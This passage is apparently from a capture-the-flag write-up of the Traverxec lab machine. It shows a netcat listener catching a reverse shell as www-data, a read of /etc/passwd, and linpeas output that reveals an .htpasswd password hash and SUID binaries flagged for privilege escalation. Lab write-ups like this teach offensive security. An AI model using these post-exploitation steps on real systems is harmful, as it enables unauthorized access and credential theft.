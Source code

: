 So I can easily get a reverse shell with same exploit.

```bash
ghost@localhost [11:19:53] [~/Documents/hacking/tj-null-boxes/traverxec] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.165] 45822
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# User

Found one user under home, and root. (ignore `sync`).

```bash
www-data@traverxec:/usr/bin$ ls /home
david

www-data@traverxec:/usr/bin$ cat /etc/passwd | grep -v 'nologin\|false'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
david:x:1000:1000:david,,,:/home/david:/bin/bash
```

Running linpeas gives some interesting outputs

```bash
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'
drwxr-xr-x 2 root root 4096 Sep 16 10:47 /etc/ldap

════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strings Not Found
strace Not Found
-rwsr-xr-x 1 root root 427K Oct  6  2019 /usr/lib/openssh/ssh-keysign
-r-sr-xr-x 1 root root 14K Nov 12  2019 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14K Nov 12  2019 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-- 1 root messagebus 50K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 35K Apr 22  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 154K Oct 12  2019 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
```
